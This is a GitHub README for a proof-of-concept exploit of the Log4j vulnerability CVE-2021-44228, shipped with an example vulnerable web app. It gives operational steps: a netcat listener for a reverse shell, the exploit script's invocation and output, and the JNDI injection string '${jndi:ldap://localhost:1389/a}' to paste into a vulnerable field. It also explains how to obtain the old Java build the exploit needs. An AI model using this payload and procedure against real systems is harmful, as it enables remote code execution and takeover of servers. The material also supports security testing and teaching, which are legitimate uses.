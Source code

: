 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.


A video showing the exploitation process
----------------------------------------

Vuln Web App:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (Old script):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (Old script):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


Proof-of-concept (POC)
----------------------

As a PoC we have created a python file that automates the process. 


#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>



At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

